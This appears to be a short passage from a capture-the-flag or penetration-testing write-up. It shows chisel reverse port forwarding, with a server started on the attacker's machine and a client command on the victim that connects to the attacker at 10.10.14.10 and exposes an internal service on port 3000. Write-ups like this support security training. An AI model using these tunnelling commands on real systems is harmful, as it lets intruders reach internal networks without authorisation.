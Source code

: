 ![](screenshots/chisel.png)

- Attacker as server:
  ```bash
  ./chisel server -reverse -p 1234
  ```
- Victim as client:
  ```bash
  ./chisel client 10.10.14.10:1234 R:3000:172.17.0.1:3000
  ```

![](screenshots/chisel_execute.png)

Now accessible locally:
